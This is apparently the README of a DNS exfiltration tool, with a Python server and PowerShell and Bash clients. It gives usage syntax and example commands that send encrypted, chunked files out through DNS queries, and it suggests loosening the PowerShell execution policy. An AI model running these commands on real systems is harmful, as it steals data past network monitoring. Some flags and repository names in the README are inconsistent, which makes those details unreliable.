 # DNS Exfiltration Tool

## DNS Server in Python (dnsexfil_server.py)

### Overview

The Python server script (`dnsexfil_server.py`) listens for DNS queries and reconstructs files sent by the exfiltration clients.

### Features

- **XOR Decryption:** Decrypts received data chunks using XOR decryption with the specified password.
- **File Compression:** Reconstructs and extracts received files locally.
- **Simultaneous Transfer:** Supports simultaneous connections and transfers.
- **Resume Interrupted Transfer:** Supports resuming interrupted transfer.
- **Error Handling:** Ignores queries received twice, and ignores queries with unknown or simple format.
- **TCP/UDP Support:** Can handle both TCP and UDP DNS queries.

### Requirements

- Python 3.x
- `dnslib` library

### Installation

1. Clone or download the repository to your local machine:

```bash
git clone https://github.com/lefayjey/DNSExfil
```

2. Install the required Python libraries:
```bash
pip install dnslib
_or_
sudo apt install python3-dnslib
```

### Usage

**Syntax**

```bash
python3 dnsexfil_server.py <dns_server_ip> <password> [--usetcp]
```

**Parameters**

- `<dns_server_ip>`: IP address of the DNS server where the server should listen for queries.
- `<password>`: Password used by clients for XOR encryption.
- `--usetcp` (optional): Use TCP instead of UDP for handling DNS queries.

**Example**

```bash
python3 dnsexfil_server.py 192.168.1.100 securepass --usetcp
```

**Notes**

Ensure that the server is configured to listen on a DNS server IP address that can receive DNS queries from clients.
The server decrypts and reconstructs files based on received DNS queries.

## DNS Client in PowerShell (dnsexfil_client.ps1)

### Overview

The PowerShell script (`dnsexfil_client.ps1`) exfiltrates files over DNS using XOR encryption and base64 encoding.

### Features
- **XOR Encryption**: Encrypts file data using XOR encryption with a user-provided password.
- **Base64 Encoding**: Converts encrypted data to base64 before sending as DNS queries.
- **Chunking**: Splits large files into smaller chunks to fit within DNS query size limits.
- **Compression**: Uses gzip compression to reduce the size of data before encryption.
- **TCP/UDP Support**: Option to use TCP instead of UDP for DNS queries.

### Requirements

- PowerShell (version 3.0 or higher recommended)
- Windows operating system (script may require adjustments for other platforms)
- Access to a DNS server for sending queries

### Installation

1. Clone or download the repository to your local machine:

```powershell
git clone https://github.com/lefayjey/DNSExfiltration
```

2. No additional installation steps are required. Ensure PowerShell script execution policy allows running the script (`Set-ExecutionPolicy RemoteSigned` or `Set-ExecutionPolicy Unrestricted`).

### Usage

**Syntax**

```powershell
.\dnsexfil_client.ps1 -FilePath <file_path> -Domain <domain> -DnsServerIp <dns_server_ip> -Password <password> [-UseTcp]
```
**Parameters**

- `-FilePath`: Path to the file you want to exfiltrate.
- `-Password`: Password to be used in XOR encryption.
- `-Domain`: Domain to use in DNS queries.
- `-DnsServerIp`: IP address of the DNS server.
- `-UseTcp` (optional): Use TCP instead of UDP for DNS queries.

**Example**

```powershell
.\dnsexfil_client.ps1 -FilePath "C:\path\to\your\file" -Domain "example.com" -DnsServerIp "8.8.8.8" -Password "securepass" -UseTcp
```

**Notes**

Ensure that the DNS server configured (`-DnsServerIp`) can receive DNS queries.
Large files will be encrypted and split into smaller chunks to fit within DNS query size limits (typically 255 bytes).

## DNS Client in Bash (dnsexfil_client.sh)

### Overview

The Bash client script (`dnsexfil_client.sh`) exfiltrates files over DNS using XOR encryption and base64 encoding.

### Features

- **XOR Encryption**: Encrypts file data using XOR encryption with a user-provided password.
- **Base64 Encoding**: Converts encrypted data to base64 before sending as DNS queries.
- **Chunking**: Splits large files into smaller chunks to fit within DNS query size limits.
- **Compression**: Uses gzip compression to reduce the size of data before encryption.
- **TCP/UDP Support**: Option to use TCP instead of UDP for DNS queries.

### Requirements
- Unix-based operating system (Linux, macOS, etc.)
- Install xortool tool (`pip3 install xortool`)
- nslookup or equivalent DNS tool installed

### Installation

1. Clone or download the repository to your local machine:

```bash
git clone https://github.com/lefayjey/DNSExfiltration
```

2. No additional installation steps are required.

### Usage

**Syntax**

```bash
./dnsexfil_client.sh -f <file_path> -p <password> -d <domain> -s <dns_server_ip> [-t]
```

**Parameters**

- `-f`: Path to the file you want to exfiltrate.
- `-p`: Password to be used in XOR encryption.
- `-d`: Domain to use in DNS queries.
- `-s`: IP address of the DNS server.
- `-t` (optional): Use TCP instead of UDP for DNS queries.

**Example**

```bash
./dnsexfil_client.sh -f "/path/to/your/file" -p "securepass" -d "example.com" -s "8.8.8.8" --use-tcp
```

**Notes**

Ensure that the DNS server configured (`-s`) can receive DNS queries.
Large files will be encrypted and split into smaller chunks to fit within DNS query size limits (typically 255 bytes).
Encrypted data is sent as hexadecimal strings in DNS queries.

# License
This project is licensed under the MIT License - see the LICENSE file for details.

# Acknowledgments
Inspired by the following DNS exfiltration tools:
- https://github.com/Arno0x/DNSExfiltrator
- https://github.com/m57/dnsteal
